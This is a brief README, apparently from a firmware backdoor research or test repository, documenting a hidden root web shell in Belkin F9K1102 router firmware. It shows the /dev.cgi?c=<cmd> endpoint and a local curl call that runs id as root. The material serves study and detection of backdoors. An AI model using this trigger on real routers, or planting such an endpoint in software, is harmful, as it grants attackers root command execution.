 # Belkin F9K1102 backdoor
- **Type**: hidden command
- **Affected versions**: 3.04.06 - 3.04.13


## Backdoor
The `/dev.htm` web page creates a web-shell that makes requests to the `/dev.cgi` endpoint, of the
form `/dev.cgi?c=<cmd>` where `cmd` is an url-encoded shell command that will be executed as root.

## Triggering the backdoor
We first need to copy the `www/` directory to `/tmp/www/`:
```console
$ cp -r www/ /tmp/
```
We can then start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/src/build/httpd
```
In a separate terminal, we can try running a shell command via the backdoor (e.g., `id`):
```console
$ curl -v "http://localhost:8080/dev.cgi?c=id"
...
uid=0(root) gid=0(root) groups=0(root)
...
```
So we can see that the backdoor allows us to run arbitrary shell commands as root.


## Reference
<https://conference.hitb.org/hitbsecconf2018dxb/materials/D1T1%20-%20Hunting%20for%20Backdoors%20in%20IoT%20Firmware%20at%20Unprecedented%20Scale%20-%20John%20Toterhi.pdf>
